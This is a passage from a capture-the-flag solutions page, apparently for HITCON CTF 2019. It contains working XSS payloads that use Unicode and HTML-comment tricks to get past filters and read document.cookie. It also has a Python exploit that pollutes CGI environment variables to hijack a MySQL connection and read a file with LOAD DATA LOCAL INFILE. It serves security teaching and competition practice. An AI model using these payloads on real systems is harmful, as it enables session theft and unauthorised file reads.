 #### Source Code

* [Website](hitcon-ctf-2019/bounty-pl33z/web/)  
* [XSS bot](hitcon-ctf-2019/bounty-pl33z/bot/)  

#### Solution

* Idea from [@FD](https://twitter.com/filedescriptor) - A little known JavaScript comment style [SingleLineHTMLOpenComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-SingleLineHTMLOpenComment) and [HTMLCloseComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-HTMLCloseComment) in EMCA specification. 

Here we use unicode `U+2028` and `U+3002` to bypass `\n` and `.` filters.

```
http://3.114.5.202/fd.php
?q=ssl。orange。tw?xx"%2bdocument[`cookie`]%E2%80%A8-->
```

#### Unintended Solution

* Nesting template expression

```
http://3.114.5.202/fd.php
?q=ssl。orange。tw?`%2b"%2bdocument[`cookie`];(`${`
```

#### Write Ups

* TBD

## **GoGo PowerSQL**
  
Difficulty: **★★★☆**  
Solved: **16 / 1147**  
Tag:   **Environment Injection**, **MySQL Client Attack**

#### Source Code

* [Docker](hitcon-ctf-2019/gogo-powersql/)  

#### Solution

1. Buffer Overflow the `DB_HOST` in BSS
2. Due to the [patch](hitcon-ctf-2019/gogo-powersql/Dockerfile#L20), we can pollute environment variable which are not in the [Blacklist](https://github.com/embedthis/goahead/blob/v4.0.0/src/cgi.c#L170).
3. Hijack MySQL connection by ENV such as `LOCALDOMAIN` or `HOSTALIAES`
4. Read `/FLAG` by `LOAD DATA LOCAL INFILE`.

```python
import requests

payload = ['x=x' for x in range(254)]
payload.append('name=x')
payload.append('HOSTALIASES=/proc/self/fd/0')
payload.append('orangeeeee=go')
payload = '&'.join(payload)

data = 'orangeeeee my.orange.tw'

r = requests.post('http://13.231.38.172/cgi-bin/query?'+payload, data=data)
print r.content
```
